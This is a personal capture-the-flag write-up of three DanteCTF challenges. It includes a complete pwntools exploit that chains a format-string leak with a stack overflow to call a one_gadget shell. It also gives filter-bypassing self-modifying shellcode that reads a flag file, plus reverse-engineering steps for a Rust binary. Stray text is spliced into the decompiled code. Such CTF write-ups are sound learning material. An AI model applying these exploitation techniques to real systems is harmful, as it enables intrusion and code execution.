

## Overview

DanteCTF was a really nice CTF. I actually solved it by myself, and finished 31th, which I think is pretty good for a solo run.
Here is what I solved:


<!--more-->

## Pwn/Notebook

This was a simple binary with the following functionllity:

you can do 5 things:
```
[1] Insert a new soul
[2] Remove a soul
[3] Edit a soul
[4] View a soul
[5] Exit
```

lets view the code of each function:

```c
unsigned __int64 add_soul()
{
  int pos; // [rsp+0h] [rbp-40h]
  int circle; // [rsp+4h] [rbp-3Ch]
  struct_dest *dest; // [rsp+8h] [rbp-38h]
  char src[32]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  memset(src, 0, sizeof(src));
  printf("Notebook position [1-5]: ");
  pos = read_int() - 1;
  if ( pos >= 0 && pos <= 4 )
  {
    if ( souls[pos] )
    {
      puts("Invalid slot!\n");
    }
    else
    {
      dest = (struct_dest *)malloc(0x44uLL);
      if ( !dest )
      {
        puts("Error!\n");
        _exit(1);
      }
      printf("Soul name: ");
      read_string(src, 0x20uLL);
      if ( src[0] )
      {
        strncpy(dest->name, src, 0x20uLL);
        printf("Circle where I found him/her [1-9]: ");
        circle = read_int();
        if ( circle > 0 && circle <= 9 )
        {
          dest->circle = circle;
          memset(src, 0, sizeof(src));
          printf("When I met him/her [dd/Mon/YYYY]: ");
          read_string(src, 0x60uLL);
          if ( strlen(src) != 11 && !sanitize_date(src) )
          {
            puts("Invalid date!\n");
            _exit(1);
          }its pretty big and it has the
          strncpy(dest[1].name, src, 12uLL);
          souls[pos] = dest;
          puts("Soul registered!");
        }
        else
        {
          puts("Invalid circle!\n");
        }
      }
      else
      {
        puts("Invalid name!\n");
      }
    }
  }its pretty big and it has the
  else
  {
    puts("Invalid position!\n");
  }
  return v5 - __readfsqword(0x28u);
}

int remove_soul()
{
  int pos; // [rsp+Ch] [rbp-4h]

  printf("Notebook position [1-5]: ");
  pos = read_int() - 1;
  if ( pos < 0 || pos > 4 )
    return puts("Invalid position!\n");
  if ( !souls[pos] )
    return puts("Invalid slot!\n");
  free((void *)souls[pos]);
  souls[pos] = 0LL;
  return puts("Soul removed!");
}

unsigned __int64 view_soul()
{
  int v1; // [rsp+Ch] [rbp-14h]
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("Notebook position [1-5]: ");
  v1 = read_int() - 1;
  if ( v1 >= 0 && v1 <= 4 )
  {
    if ( souls[v1] )
    {
      printf("Soul name: %s\nCircle: %d\nMeeting date: ", (const char *)souls[v1], *(unsigned int *)(souls[v1] + 32LL));
      printf((const char *)(souls[v1] + 36LL));
      puts("\nSoul shown!");
    }
    else
    {
      puts("Invalid slot!\n");
    }
  }
  else
  {
    puts("Invalid position!\n");
  }
  return v2 - __readfsqword(0x28u);
}

unsigned __int64 edit_soul()
{
  int v1; // [rsp+8h] [rbp-38h]
  int v2; // [rsp+Ch] [rbp-34h]
  char src[8]; // [rsp+10h] [rbp-30h] BYREF
  __int64 v4; // [rsp+18h] [rbp-28h]
  __int64 v5; // [rsp+20h] [rbp-20h]
  __int64 v6; // [rsp+28h] [rbp-18h]
  unsigned __int64 v7; // [rsp+38h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  *(_QWORD *)src = 0LL;
  v4 = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  printf("Notebook position [1-5]: ");
  v1 = read_int() - 1;
  if ( v1 >= 0 && v1 <= 4 )
  {
    if ( souls[v1] )
    {
      printf("Soul name: ");
      read_string(src, 0x20uLL);
      if ( src[0] )
      {
        strncpy((char *)souls[v1], src, 0x20uLL);
        printf("Circle where I found him/her [1-9]: ");
        v2 = read_int();
        if ( v2 > 0 && v2 <= 9 )
        {
          *(_DWORD *)(souls[v1] + 32LL) = v2;
          printf("When I met him/her [dd/Mon/YYYY]: ");
          read_string(src, 0xCuLL);
          if ( strlen(src) != 11 && !sanitize_date(src) )
          {
            puts("Invalid date!\n");
            _exit(1);
          }
          strncpy((char *)(souls[v1] + 36LL), src, 0x20uLL);
          puts("Soul updated!");
        }
        else
        {
          puts("Invalid circle!\n");
        }
      }
      else
      {
        puts("Invalid name!\n");
      }
    }
    else
    {
      puts("Invalid slot!\n");
    }
  }
  else
  {
    puts("Invalid position!\n");
  }
  return v7 - __readfsqword(0x28u);
}
```

First of all, the binary is compiled with full mitagtions. So stack canary is enabled.
Now lets go over the bugs in this program:

1. when creating a new soul, we can make our Month to be whatever we want. (and not just Feb,Jan, etc.)

2. buffer overflow when reading the date from the user.


the `read_string` function is using read to read the input, which doesn't stops at null bytes.

This means an attacker can write a null byte as the twelve byte, and continue writing to the buffer and overwriting the return pointer.

3. The view_soul functionllity has a FSB:
```c
  printf("Soul name: %s\nCircle: %d\nMeeting date: ", (const char *)souls[v1], *(unsigned int *)(souls[v1] + 32LL));
  printf((const char *)(souls[v1] + 36LL));
  ```
  
  it basiclly prints the date varible we can provide, which can give us leaks.
  
  # Exploition:
  
  Our idea would be to leak the stack canary and libc using the fsb, and then just a classic one_gadget call.
  
  I saw that the canary is 9 bytes after the addresses given in the fsb, so '%9$p: aaaaa\x00' would be it. (remember we need to make strlen to be 11)

  And by doing the same to the libc, I saw that a libc address is located 15 bytes after.

  Now we basiclly have our leaks:
  
  ```py
leak_canary_chunk = insert(1, 'A' * (0x20-1), 1, b'%9$p: aaaaa\x00')
leak = view(leak_canary_chunk)
canary = extract_fsb_leak(leak)


leak_libc_chunk = insert(3, 'C' * (0x20-1), 1, b'%15$p: aaaa\x00')
leak = view(leak_libc_chunk)
libc_leak = extract_fsb_leak(leak)

libc.address = libc_leak - 0x29d90
```

Now we just need to use our buffer overflow bug, and jump to our one_gadget!
```
bof_chunk = insert(2, 'E' * (0x20 - 1), 2, b'B'*11+b'\x00'*29 + p64(canary) + p64(0) + p64(0x50a37+libc.address))
```

I really enjoyed this challenge, cause I really speed ran it :) (got the first blood here)

Full exploit:

```py
from pwn import *

e = ELF('./bin')
#p = gdb.debug('./bin')
p = remote('challs.dantectf.it', 31530)
libc = ELF('libc.so.6')
def insert(pos, name, circle, date):
	p.sendline("1")
	p.recvuntil(': ')
	p.sendline(str(pos))
	p.recvuntil(': ')
	p.sendline(name)
	p.recvuntil(': ')
	p.sendline(str(circle))
	p.recvuntil(': ')
	p.sendline(date)
	print(p.recv())
	return pos 

def remove(pos):
	p.sendline("2")
	p.recvuntil(': ')
	p.sendline(str(pos))
	print(p.recv())

def edit(pos):
	p.sendline("2")
	p.recvuntil(': ')
	p.sendline(str(pos))
	print(p.recv())

def view(pos):
	p.sendline("4")
	p.recvuntil(': ')
	p.sendline(str(pos))
	return p.recv()

def extract_fsb_leak(leak):
	return int(leak.split(b'\n')[2].split(b": ")[1], 16)

p.recvuntil('> ')

leak_canary_chunk = insert(1, 'A' * (0x20-1), 1, b'%9$p: aaaaa\x00')
leak = view(leak_canary_chunk)
canary = extract_fsb_leak(leak)


leak_libc_chunk = insert(3, 'C' * (0x20-1), 1, b'%15$p: aaaa\x00')
leak = view(leak_libc_chunk)
libc_leak = extract_fsb_leak(leak)

libc.address = libc_leak - 0x29d90

print(hex(canary), hex(e.address), hex(libc.address))

bof_chunk = insert(2, 'E' * (0x20 - 1), 2, b'B'*11+b'\x00'*29 + p64(canary) + p64(0) + p64(0x50a37+libc.address))
p.interactive()
```

## Pwn/Soulcode

The idea in this challenge is simple:


We give the program a shellcode, and if it bypasses a filter it will run it.


the filter basiclly disallows any shellcode which contains the bytes 0xcd,0x80,0xf,0x5,0x89 and 0.

The program also disallows all of the syscalls besides those syscalls:


So we can't just pop a shell, we'll need to make a shellcode which does open-read-write to the flag.

First of all, lets ignore the filter. I let pwntools to create my open-read-write shellcode, and it created this:

```asm
   0:   6a 01                   push   0x1
   2:   fe 0c 24                dec    BYTE PTR [rsp]
   5:   48 b8 66 6c 61 67 2e 74 78 74   movabs rax, 0x7478742e67616c66
   f:   50                      push   rax
  10:   48 8d 3c 24             mov    rdi, rsp
  14:   31 d2                   xor    edx, edx
  16:   31 f6                   xor    esi, esi
  18:   6a 02                   push   0x2
  1a:   58                      pop    rax
  1b:   0f 05                   syscall 
  1d:   48 89 c7                mov    rdi, rax
  20:   31 c0                   xor    eax, eax
  22:   6a 50                   push   0x50
  24:   5a                      pop    rdx
  25:   48 89 e6                mov    rsi, rsp
  28:   0f 05                   syscall 
  2a:   6a 01                   push   0x1
  2c:   5f                      pop    rdi
  2d:   48 89 c2                mov    rdx, rax
  30:   48 89 e6                mov    rsi, rsp
  33:   6a 01                   push   0x1
  35:   58                      pop    rax
  36:   0f 05                   syscall

```

we can see that there are just a few instruction which are forbidden:
```
mov    rdi, rsp
mov    rdi, rax
mov    rdx, rax
syscall
```
now we'll have to find a way to do their functionillty differently.

all the `mov x, y` cmds, can be just changed to `lea x, [y]`, which does the exact same thing and removes the 0x48 forbidden byte.

now we just need to thing about the syscall instruction. BUT, the only way to communicate with the os, is with this instruction, and there are not other ways to do a syscall.

So what can we do?
Well, thats when Self Modifing Shellcode comes into play.

the invalid opcodes is 0f 05, right?
BUT, the shellcode is on the stack! its just a constant offset from our friend RSP.

So we can just enter 0x0e and 0x4 as our opcode, and one instruction before them we can do `inc [rsp+offset]; inc [rsp+offset+1]`!

which will modify to the right instruction right before it gets called!

Exploit:

```py
from pwn import *
from ae64 import AE64


context.arch='amd64'

p = remote('challs.dantectf.it',31532)
p.recvline()


shellcode = """
    /* open(file='flag.txt', oflag=0, mode=0) */
    /* push b'flag.txt\x00' */
    push 1
    dec byte ptr [rsp]
    mov rax, 0x7478742e67616c66
    push rax
    lea rdi, [rsp]
    xor edx, edx /* 0 */
    xor esi, esi /* 0 */
    /* call open() */
    push SYS_open /* 2 */
    pop rax
    syscall
    /* call read('rax', 'rsp', 0x50) */
    mov rdi, rax
    xor eax, eax /* SYS_read */
    push 0x50
    pop rdx
    mov rsi, rsp
    syscall
    /* write(fd=1, buf='rsp', n='rax') */
    push 1
    pop rdi
    mov rdx, rax
    mov rsi, rsp
    /* call write() */
    push SYS_write /* 1 */
    pop rax
    syscall

"""

shell = b'\x6a\x01\xfe\x0c\x24\x48\xb8\x66\x6c\x61\x67\x2e\x74\x78\x74\x50'
shell += b'\x48\x8d\x3c\x24' # lea rdi, [rsp]
shell += b'\x31\xd2\x31\xf6\x6a\x02\x58'

shell += b'\x48\xff\x44\x24\x3d' #inc qword ptr[rsp+3d];
shell += b'\x48\xff\x44\x24\x3e' #inc qword ptr[rsp+3e];
shell += b'\x0e\x04' #it will be changed to \x0e\x05 which is syscall

shell += b'\x48\x8d\x38' # lea rdi, [rax]
shell += b'\x31\xc0'
shell += b'\x6a\x50'
shell += b'\x5a'
shell += b'\x48\x8d\x34\x24' # lea rsi, [rsp]

shell += b'\x48\xff\x44\x24\x55' #inc qword ptr[rsp+55];
shell += b'\x48\xff\x44\x24\x56' #inc qword ptr[rsp+56];
shell += b'\x0e\x04' #it will be changed to \x0e\x05 which is syscall

shell += b'\x6a\x01\x5f'
shell += b'\x48\x8d\x10'

shell += b'\x48\x8d\x34\x24'
shell += b'\x6a\x01\x58'

shell += b'\x48\xff\x44\x24\x6e' #inc qword ptr[rsp+6e];
shell += b'\x48\xff\x44\x24\x6f' #inc qword ptr[rsp+6f];
shell += b'\x0e\x04' #it will be changed to \x0e\x05 which is syscall


p.sendline(shell)
p.interactive()
```


## Rev/RustySafe

This challenge is all about reversing a HUGE rust binary, which scared me at the beginning.
But after a short time I really found this challenge interseting and fun.

Lets run the binary:

```
itay@itay-Vortex-G25-8RD:/media/itay/Data/DanteCTF/rev$ ./safe 
Enter the code
1
Wrong.
itay@itay-Vortex-G25-8RD:/media/itay/Data/DanteCTF/rev$ ./safe 
Enter the code
a
```

We can guess that its a program which reads a number from a user and compares it to some value.

After searching for a bit in IDA, I saw the function which does most things:

```c
 number = sub_40490(v3, v4);
  if ( (number & 1) != 0 )
  {
    LOBYTE(v14) = BYTE1(number);
    sub_8BC0("You must enter a number", 24LL, &v14, &off_51ED0, &off_51F78);
  }
  v32 = number & 0xFFFFFFFF00000000LL;
  if ( (number & 0xFFFFFFFF00000000LL) == 0x2A00000000LL )
  {
    sub_9A00(&v19, &unk_420B3, 81LL, &unk_42166, 26LL);
    v23 = (__int64 *)&v19;
```

we can guess that `number` is our input. we can see thats its comparing it with 0x2A00000000LL.

lets debug this with gdb. I put a breakpoint right before the comparasion, and entered 100(0x64) as out input.

```
──────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────────────────────────
 RAX  0x2a00000000
 RBX  0x1
 RCX  0x6400000000
 RDX  0xa
 RDI  0x5555555acbb0 ◂— 0xa303031 /* '100\n' */
 RSI  0x3
 R8   0x0
 R9   0x0
 R10  0x55555559b3b7 ◂— 0x202020202020202
 R11  0x5555555acbb2 ◂— 0xa30 /* '0\n' */
 R12  0x0
 R13  0x7fffffffdcd0 —▸ 0x5555555aab10 ◂— 0x6e69616d /* 'main' */
 R14  0x7fffffffdc18 —▸ 0x5555555a9040 ◂— 0x0
 R15  0x555555596020 ◂— 'called `Result::unwrap()` on an `Err` valueEnter the code\nFailed to read line'
 RBP  0x7fffff7fe000
 RSP  0x7fffffffdbc0 ◂— 0x0
*RIP  0x55555555d47f ◂— cmp rcx, rax
───────────────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────────────────────────────
   0x55555555d477    mov    qword ptr [rsp + 0xa0], rcx
 ► 0x55555555d47f    cmp    rcx, rax
   0x55555555d482    jne    0x55555555d50f                <0x55555555d50f>
    ↓
   0x55555555d50f    lea    rax, [rip + 0x48a9a]
   0x55555555d516    mov    qword ptr [rsp + 0x10], rax

```

As we can see, it compares our input << 8 with 0x2a << 8. so if we'll just enter input = 0x2a = 42, we'll pass this check!
```
itay@itay-Vortex-G25-8RD:/media/itay/Data/DanteCTF/rev$ ./safe 
Enter the code
42
This is the answer to the Ultimate Question of Life, the Universe, and Everything
```

But, thats not enough! we didn't get the flag yet.

After I tried to nc to the remote server and submit 42, I saw that a whole menu has showed up to me:

```
* COMMAND  DESCRIPTION                 
* awesome  Print awesome content       
* dir      Create a directory          
* env      Set an environment variable 
* file     Create a file               
* flag     Print the flag              
* poem     Have some poetry!           
* run      Runs the RustySafe binary   

RustySafe-shell > 
```
we can create a directory, set env variable, create flag, and run the binary we saw earlier.

since all of this funcionallity is given to us, I thought maybe the binary checks for this staff (files, dirs, env varibles).

So I started with enviroment variables. I basiclly hooked the getenv function, and saw an interesting string:

```
Breakpoint 1, __GI_getenv (name=0x7fffffffd9b0 "MY_FAV_POET") at ./stdlib/getenv.c:34
34	./stdlib/getenv.c: No such file or directory.
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────────────────────────
*RAX  0x0
*RBX  0x7fffffffd9b0 ◂— 'MY_FAV_POET'
*RCX  0x1
*RDX  0xb
*RDI  0x7fffffffd9b0 ◂— 'MY_FAV_POET'
```
the program gets the MY_FAV_POET environment varible!
lets see that in code:

```c
  sub_1E1A0(&v19, "MY_FAV_POET", 11LL);
  if ( v19 )
  {
    if ( ptr && v20 )
      MEMORY[0xA100](ptr);
    v0 = 0;
    goto LABEL_11;
  }
  v1 = v20;
  v2 = ptr;
  if ( v22.m128i_i64[0] == 5 && !(*(_DWORD *)ptr ^ 0x544E4144 | *((unsigned __int8 *)ptr + 4) ^ 0x45) )  <----------- (1)
  {
    LOBYTE(v0) = 1;
    if ( !v20 )
      goto LABEL_11;
    goto LABEL_10;
  }
```

The IDA is having some problems here, but what we can see is enough.

After dynamiclly debuging, we can see the ptr holds the value of the MY_FAV_POET enviroment varible.

in this code we can see that it checks if the 4 bytes xord with 0x544E4144 is zero, and if the fifth byte xord with 0x45 is zero.

0x544E4144 is basiclly DANT, and 0x45 is E.

SO we figured out the first piece of the puzzle, that we need to set the enviroment varible MY_FAV_POET to be DANTE!!!

but still, thats not enough. we didn't get the flag yet.

Next thing I checked interesting code in the same function as the number check and the enviroment varible check. if we scroll down a bit we can see this:

```c
for ( i = 0; ; i = v11 )
  {
    check_next_file(&v14, &v30);
    if ( !v14 )
      break;
    if ( !v17 )
    {
      v23 = v15;
      sub_8BC0(
        "called `Result::unwrap()` on an `Err` valueEnter the code\nFailed to read line",
        43LL,
        &v23,
        &off_51EF0,
        &off_51FD8);
    }
    v19 = v15;
    v20 = v16;
    ptr = v17;
    v22 = _mm_loadu_si128(&v18);
    sub_1E600(&v23, &v19);
    v7 = v24;
    v8 = (const __m128i *)sub_25F50(v24, v25);
```

 basiclly a for loop which does something interesting. in the check_next_file function we can see a call to readdir64. 

 after dynamiclly debugging it, I saw that this for loops basiclly loops over ALL of the files in the tmp directory. (which we can create files into!!!)

 Lets see what checks are there inside the for loop:

 ```c
    for ( i = 0; ; i = WIN_FLAG )
    {
      check_next_file(&v14, &v30);
      if ( !v14 )
        break;
      v10 = _mm_movemask_epi8(
              _mm_and_si128(
                _mm_cmpeq_epi8(_mm_cvtsi32_si128(v8[1].m128i_u8[0]), (__m128i)xmmword_42010),
                _mm_cmpeq_epi8(_mm_loadu_si128(v8), (__m128i)xmmword_42000))) == 0xFFFF;
      WIN_FLAG = 1;
      if ( !v10 )
        WIN_FLAG = i;
    }
 ```
   in order for the `for` loop to end, we need either to make v14 = 0, whick will happen when we finished all the files in tmp, or if we can make v10 = true, which does some kind of comparassion. lets see whats inside xmmword_42000:
   `xmmword_42000   xmmword 'gnp.etnaD3<I/pmt/'`

   wow! this looks like a reverse tmp directory!!

   after reversing it we got /tmp/I<3Dante.png, which will be our path!

   We basiclly finished. lets run it on the remote machine:
    
```
 * COMMAND  DESCRIPTION                 
 * awesome  Print awesome content       
 * dir      Create a directory          
 * env      Set an environment variable 
 * file     Create a file               
 * flag     Print the flag              
 * poem     Have some poetry!           
 * run      Runs the RustySafe binary   

 RustySafe-shell > env
 Enter the name of the variable: MY_FAV_POET
 Enter the value it should be set to: DANTE
 RustySafe-shell > file
 Enter the name of the file to be created in /tmp: I<3Dante.png
 File was created
 RustySafe-shell > run
 Enter the code
 42
 This is the answer to the Ultimate Question of Life, the Universe, and Everything
 DANTE{tRUST_m3_D4nT3_1s_th3_bEsT}
```

This challenge was pretty hard for me. in this writeup I talk about things like they are trivial, but as someone which does the challenge and know nothing, trust me its hard.
It was one of the least solved challs, so I glad I was able to do it!


## Appendix

Really nice challenges in this CTF. The REV one taught me a lot

If you have any question regarding the above solutions, you can DM me via my [Twitter](https://x.com/itaybel) or my `Discord` (itaybel).
